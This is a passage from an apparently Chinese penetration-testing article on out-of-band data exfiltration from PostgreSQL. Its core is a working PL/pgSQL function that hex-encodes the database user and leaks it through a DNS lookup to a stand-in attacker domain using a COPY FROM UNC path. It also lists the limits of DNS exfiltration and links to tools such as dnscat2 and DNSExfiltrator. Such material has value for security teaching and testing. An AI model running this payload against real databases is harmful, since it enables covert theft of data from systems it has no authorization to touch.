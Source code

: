   
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoaY5N0eApbC7dd988wlJniawQTfFYL1SU7ibcUnXL1tynY4yfvAUM15wA/640?wx_fmt=png&from=appmsg "")  
  
**限制**  
：用户必须具有超级用户权限才能执行 CREATE EXTENSION 查询  
###### 漏洞利用/数据窃取  
  
**受害者**  
```
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
    SELECT INTO query_result (SELECT encode(convert_to(concat(user,'     '), 'UTF8'),'hex'));
    exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.oob.dnsattacker.com\\\\foobar.txt\'';
    EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoPicDibWVfUM8cO7OFQJBNnXeZnIg5SMg7rfWlCom6NnSictzI0jG50MmQ/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
用户必须具有超级用户权限才能执行此命令  
## 使用 DNS 进行数据窃取的限制  
- 域名最多可以有 127 个子域。  
  
- 每个子域最多可以有 63 个字符长度。  
  
- 完整域名的最大长度为 253 个字符。  
  
- 由于 DNS 记录缓存，为每个请求的 URL 添加唯一值。  
  
- DNS 是明文通道，通过 DNS 提取的任何数据都将是明文格式，并且可供中间节点和 DNS 服务器缓存使用。因此，建议**不要**  
通过 DNS 窃取敏感数据。  
  
## 参考资料  
- https://github.com/beefproject/beef/wiki/Installation  
  
- Pwning with Responder - A Pentester's Guide  
  
- https://github.com/Arno0x/DNSExfiltrator  
  
- https://blog.zsec.uk/out-of-band-xxe-2/  
  
- https://github.com/api0cradle/Powershell-ICMP/blob/master/Powershell-ICM...  
  
- https://github.com/lukebaggett/dnscat2-powershell/blob/master/dnscat2.ps1  
  
- https://ss64.com/nt/certutil.html  
  
- https://isc.sans.edu/forums/diary/Exfiltrating+data+from+very+isolated+e...  
  
- https://pentest.blog/data-ex-filtration-with-dns-in-sqli-attacks/  
  
- https://www.aldeid.com/wiki/File-transfer-via-DNS  
  
- https://www.dbrnd.com/2015/05/postgresql-cross-database-queries-using/  
  
  
  
